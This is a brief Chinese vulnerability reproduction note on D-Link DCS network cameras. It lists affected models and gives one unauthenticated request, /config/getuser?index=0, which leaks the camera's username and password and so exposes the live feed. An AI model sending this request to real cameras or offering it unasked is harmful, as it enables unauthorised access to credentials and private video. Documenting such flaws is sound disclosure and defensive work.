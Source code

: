 # 0x00 软件介绍
D-Link DCS系列：D-Link是一家台湾科技公司，中文名：友讯科技，其旗下的DCS系列是畅销的网络摄像机

# 0x01 复现环境
复现环境：本地环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
DCS-2530L  
DCS-2670L  
DCS-4603  
DCS-4622  
等多个DCS系列系统

# 0x04 漏洞复现
访问[http://xxx.xxx.xxx.xxx/config/getuser?index=0](http://xxx.xxx.xxx.xxx/config/getuser?index=0)会泄露账号和密码

使用账号密码登陆后即可查看摄像头的监控画面  
![image](./pic/0.png)

# 0x05 批量脚本
无

# 0x06 参考链接
https://mp.weixin.qq.com/s/b7jyA5sylkDNauQbwZKvBg
